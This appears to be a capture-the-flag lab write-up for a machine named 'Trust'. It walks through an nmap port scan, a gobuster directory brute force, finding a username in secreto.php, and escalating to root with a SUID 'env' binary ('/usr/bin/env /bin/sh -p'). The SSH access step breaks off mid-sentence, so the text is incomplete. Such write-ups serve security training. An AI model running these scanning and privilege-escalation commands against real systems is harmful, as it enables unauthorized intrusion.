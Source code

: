 # Trust

## Port Enumeration

To begin our scan, we use the Nmap tool  during our discovery phase. As we can see, we have the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.18.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.18.0.2  
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Examining the Web Page
We access the web page hosted on the Apache server and find this:

![Descripción de Trust](Imagenes/Trust_1.png)

The first thing that comes to mind is to analyze the web page in search of strange links or any clues. As I don't find anything, I decide to investigate if there are hidden files or directories. For this, I'm going to use the Gobuster application.

```ruby
gobuster dir -u http://172.18.0.2/ -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html

```
![Descripción de Trust](Imagenes/Trust_2.png)

We find a suspicious file named secreto.php. When we access this file through the website's URL, we discover the following:

![Descripción de Trust](Imagenes/Trust_3.png)

We observe one user that we can try with the SSH service.

to access the SSH service, we need a pa

## Privilege Escalation

For privilege escalation, we need to identify which files we can execute with root privileges.

To find these files, we need to execute this command:

```ruby
sudo -l
```
We notice that we can't execute this command because it doesn't exist. So, we can search for binaries with SUID permissions using this command:

```ruby
find / -perm -4000 -user root 2>/dev/null
```

we obtain this results:

```ruby
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/newgrp
/usr/bin/su
/usr/bin/env
/usr/bin/umount
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
```

If we examine the different results, we find a binary file named "env". We can execute this command to potentially gain root privileges:

```ruby
/usr/bin/env /bin/sh -p
```

Finally, we gain access as the root user.